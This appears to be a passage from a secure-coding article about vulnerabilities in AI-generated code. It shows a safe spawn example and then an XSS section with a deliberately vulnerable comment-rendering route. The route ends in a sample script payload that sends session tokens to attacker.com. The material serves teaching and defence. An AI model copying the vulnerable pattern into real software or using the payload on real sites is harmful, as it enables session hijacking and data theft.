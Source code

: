 ```javascript
    // ✅ SECURE: Use spawn with argument array
    const convert = spawn('convert', [
        path.basename(inputFile),
        '-quality', qualityNum.toString(),
        `output.${outputFormat}`
    ]);
    
    convert.on('close', (code) => {
        if (code !== 0) {
            return res.status(500).json({ error: 'Conversion failed' });
        }
        res.json({ success: true, output: `output.${outputFormat}` });
    });
});
```

### 1.1.3 Cross-Site Scripting (XSS) Vulnerabilities

According to research from KDnuggets, "AI assistants often miss proper output encoding, creating XSS vulnerabilities that can lead to session hijacking and data theft" [8]. The problem is particularly acute in template generation and dynamic HTML creation.

**AI-Generated Vulnerable Code:**
```javascript
// Prompt: "Create a comment display system"
app.get('/comments/:postId', async (req, res) => {
    const comments = await getComments(req.params.postId);
    
    let html = `
        <div class="comments">
            <h2>Comments</h2>
    `;
    
    comments.forEach(comment => {
        // ❌ VULNERABLE: Direct interpolation of user content
        html += `
            <div class="comment">
                <strong>${comment.author}</strong>
                <p>${comment.content}</p>
                <small>${comment.timestamp}</small>
            </div>
        `;
    });
    
    html += '</div>';
    res.send(html);
});

// Attack vector:
// comment.content = "<script>fetch('/api/session').then(r=>r.text()).then(t=>fetch('https://attacker.com?token='+t))</script>"
```

